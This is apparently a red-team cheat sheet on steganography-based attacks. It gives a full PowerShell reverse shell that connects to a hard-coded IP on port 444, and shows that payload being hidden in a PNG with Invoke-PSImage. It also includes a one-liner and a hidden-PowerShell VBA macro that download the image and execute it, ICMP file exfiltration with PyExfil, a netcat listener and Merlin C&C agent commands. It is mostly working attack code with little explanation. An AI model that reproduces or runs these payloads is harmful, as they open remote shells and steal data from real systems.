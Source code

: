 # Stego Red Team

## Data Exfiltration using ICMP 8

* PyExfil: https://github.com/ytisf/PyExfil

* Target: `python -c 'from pyexfil.network.ICMP.icmp_exfiltration import send_file;ip_addr = "127.0.0.1";send_file(ip_addr, src_ip_addr="127.0.0.1", file_path="/home/kali/stego/PyExfil/1.txt", max_packetsize=512, SLEEP=0.1)'`

* Server: `tcpdump -A icmp -i lo`



## Remote Access using PSImage

* PSImage: https://github.com/peewpw/Invoke-PSImage

* `echo '$client = New-Object System.Net.Sockets.TCPClient("46.101.222.52",444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' > payload.ps1`
* `Import-Module .\Invoke-PSImage.ps1`
* `Invoke-PSImage -Script .\payload.ps1 -Out .\evil.png -Image .\image.png -Web`
* `sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("http://46.101.222.52/evil.png"));$o=a Byte[] 1920;(0..0)|%{foreach($x in(0..1919)){$p=$g.GetPixel($x,$_);$o[$_*1920+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..500]))`
* Create a VBS Macro: 
```
Sub RunAndGetCmd()

    strCommand = "Powershell -W Hidden -Exec Bypass -Command ""sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead('http://46.101.222.52/evil.png'));$o=a Byte[] 1920;(0..0)|%{foreach($x in(0..1919)){$p=$g.GetPixel($x,$_);$o[$_*1920+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..500]))"""
    Set WshShell = CreateObject("WScript.Shell")
    Set WshShellExec = WshShell.Exec(strCommand)
    strOutput = WshShellExec.StdOut.ReadAll

End Sub
```
* `nc -nlvp 444`



## Post-Exploitation over HTTP/2 C&C

* `./ merlinServer-Linux-x64 -i 46.101.222.52`
* `./ merlinAgent-Linux-x64 -url https://46.101.222.52:443`
 
 
 
## Awsome Tools

* SpookFlare: https://artofpwn.com/spookflare.html
* Packet Whisper: https://github.com/TryCatchHCF/PacketWhisper
* Merlin: https://github.com/Ne0nd0g/merlin
